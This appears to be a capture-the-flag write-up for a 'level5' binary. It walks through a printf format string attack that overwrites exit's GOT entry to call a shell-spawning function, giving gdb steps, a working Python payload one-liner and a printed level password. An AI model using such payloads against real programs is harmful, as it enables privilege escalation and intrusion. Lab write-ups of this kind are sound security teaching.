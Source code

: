 ## Press printf's f for fun and profit episode III (level5)

This level's [binary](source.c) still does the same thing as the last ones. It
takes user input and prints it back to stdin. The input buffer is also directly
given to printf, which means we can once again perform a
[format string attack](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b).
However this time there is no _m_ value to be set. All we have in our function
_n_, after our insecure printf call, is an exit. There is also an other
function, _o_, declared in the binary which calls system and spawns a shell.

We must obviously find a way to call the _o_ function. The only entry point we
have after the printf call is - ironically - our exit call. The call instruction
refers to an address where the function resides. If we could rewrite the call
instruction to point to _o_ or to make the exit address point to it, this would
do the trick.

One way to do this is through the
[got overwrite](https://infosecwriteups.com/got-overwrite-bb9ff5414628) exploit.

So first we get the GOT address of the exit function:

```shell
# run gdb on level5
gdb ./level5
# print the exit call we want to overwrite in the n function
(gdb) disass n
... # lines removed for clarity
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
# then the got address
(gdb) x/3i 0x80483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
   0x80483d6 <exit@plt+6>:      push   $0x28
   0x80483db <exit@plt+11>:     jmp    0x8048370
```

This would be _0x8049838_ here. We can test that the exploit could work by
setting this address' value to the address of the function _o_.

```shell
# get o's address
(gdb) i addr o
Symbol "o" is at 0x80484a4 in a file compiled without debugging.
# break on the exit call
(gdb) b *0x080484ff
(gdb) run
Starting program: /home/user/level5/level5
random input
random input

Breakpoint 1, 0x080484ff in n ()
# now replace the exit's got address with o
(gdb) set *0x8049838 = 0x80484a4
(gdb) c
Continuing.
# here we are (well still at level5, but theoretically it works)
$ whoami
level5
```

This works. So the goal now is to do it though the format string attack on the
printf call. This is basically the same exploit as is in the last level except
that the _m_ address is replaced with exit's got address.

We start getting to our buffer from the fourth conversion:

```
./level5
aaaabbbbccccddddeeeefghijklm %p %p %p %p
aaaabbbbccccddddeeeefghijklm 0x200 0xb7fd1ac0 0xb7ff37d0 0x61616161
```

Now we simply adapt the last level's exploit for this binary:

```shell
# feed the exploit payload to the binary
python -c 'print "\x08\x04\x84\x7f"[::-1] + 4 * "a" + "\x08\x04\x98\x38"[::-1] + "%p%p%p%0*p%n"' | ./level5
# it works ;)
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

The first four bytes are the length to add to printfs's return value to return
_o_'s address. After the padding we have the location of exit's got address and
finally the format string to pop our values from the stack.
